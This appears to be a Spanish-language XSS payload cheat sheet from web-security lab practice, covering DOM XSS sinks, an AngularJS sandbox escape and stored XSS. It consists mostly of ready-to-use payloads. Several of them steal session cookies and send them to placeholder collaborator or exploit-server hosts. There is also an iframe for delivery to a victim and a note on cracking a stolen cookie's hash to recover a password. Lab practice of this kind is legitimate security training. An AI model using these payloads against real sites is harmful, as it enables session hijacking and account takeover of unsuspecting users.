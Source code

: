 #### Payloads: 

```js
//LAB: DOM XSS sink:document.write with source:location.search (inside img)
"><svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>

//LAB: DOM XSS <select> sink:document.write source:location.search</select></option>
...productId=1&storeId=</select></option><svg onload="alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(Pwn3d_By_JF0x0r)"/>
//Solucion lab: 
	"></select><img%20src=1%20onerror=alert(1)>

//LAB: DOM XSS sink:InnerHTML source:location.search
/?search="><img src='x' onerror=alert('Pwn3d_By_JF0x0r');>

//LAB: DOM XSS sink:href source:location.search in JQuery
?returnPath=javascript:alert(document.cookie)
?returnPath=javascript:fetch('https://your-burp-collaborator.com/?c='+document.cookie)

//LAB: DOM XSS JQuery sink:selector - hashchange event
// store & deliver exploit to victim
<iframe src="URL-vulnerable/#" onload="this.src+='<img src=x onerror=print()>'"></iframe >

//LAB: DOM XSS Angular 1.7.7 JS: (<>," ") codificadas a HTML
/?search={{constructor}} //testing {{7*7}} también.
?search={{constructor.constructor('alert(1)')()}}
//PARA ROBAR COOKIE ->
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}


//html.replace('<', '&lt;').replace('>', '&gt;'); in a string, single occurrence Comment POST author vulnerable, revision del codigo JS que contiene un InnerHTML
<><img src=x onerror=alert(1)>

//More Elaborated DOM 
\"}-alert(1)//
"}; location="https://EXPLOIT-SERVER.net/c?"+document.cookie; //

```
### 3. XSS Stored: 

Los scripts entre sitios almacenados (también conocidos como XSS de segundo orden o persistentes) surgen cuando una aplicación recibe datos de una fuente que no es confiable e incluye esos datos dentro de sus respuestas HTTP posteriores de manera insegura.

```js
//LAB: De authentication topic pero lo dejo acá tambien `stay-logged-in`
//### Autentication password cracking online: `stay-logged-in`
<script>document.location='https://exploit-SERVER/'+document.cookie</script>
//Nos llega la cookie de session y simplemente la decodeamos como sea necesario, base64>md5>take password. ----->*** Si el hash no se desencripta con alguna tool, busco directamente el hash en internet a ver si aparece. 
* Si el hash no se desencripta con alguna tool, busco directamente el hash en internet a ver si aparece. 


//LAB: XSS Stored en contexto HTML sin nada codificado
//en la seccion de comentar, en comment tirar: 
<script>alert()</script>

//LAB: XSS Stored onClick Event, <>," " HTML Encoded & '', \ Escaped
//* en la seccion de comentar el body param website: 
//* carga util sin codear: &apos;-alert(document.domain)-&apos;
//* '-alert(document.domain)-'
```